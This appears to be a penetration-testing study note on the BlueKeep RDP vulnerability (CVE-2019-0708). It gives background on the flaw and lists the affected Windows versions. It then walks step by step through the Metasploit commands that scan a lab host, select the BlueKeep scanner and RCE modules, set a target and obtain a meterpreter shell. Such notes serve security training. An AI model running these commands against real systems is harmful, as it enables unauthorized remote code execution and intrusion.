 RDP Vulnerabilities (BlueKeep)
- Bluekeep (CVE-2019-0708) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
- The Bluekeep vulnerabiliy was made public by Microsoft in May 2019.
- The Bluekeep exploit takes advantages of a vulnerability in the Windows RDP protocol that allows attackers to again access to a chunk of kernal memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.
- Microsoft patch this vulnerability on May 14th,2019.
-The Bluekeep vulnerability affects multiple versions of windows
- xp
- vista
- windows 7
- windows server 2008 & R2
- The BlueKeep vulnerability has various illegitimate Poc's and exploit and exploit code that could be malicious in nature.It is therefore recommended to only utilize verified exploit code and modules for exploitation
- The Bluekeep exploit has an MSF auxiliary module as well as exploit modules 
- MSF exploite module provides us with privileged meterpreter session on the target system.
#### Exploit
- sudo nmap -sV -sS 10.10.10.12 [ confirm the RDP services]
- service postgresql start
- msfconsole
- search BlueKeep
- use auxiliary/scanner/rdp/cve_2019_0708_bluekeep [ this will use for checking if the target is vulnerable or not]
- use exploit/windows/rdp/cve_2019_0708_bluekeep_rce [ this will use for exploitation]
- set everything requires
- but this need to set targets
- show targets [ this will list all the target]
- set target 2 [ for setting specific target]
- run
- this will take couple of second and give meterpreter shell.

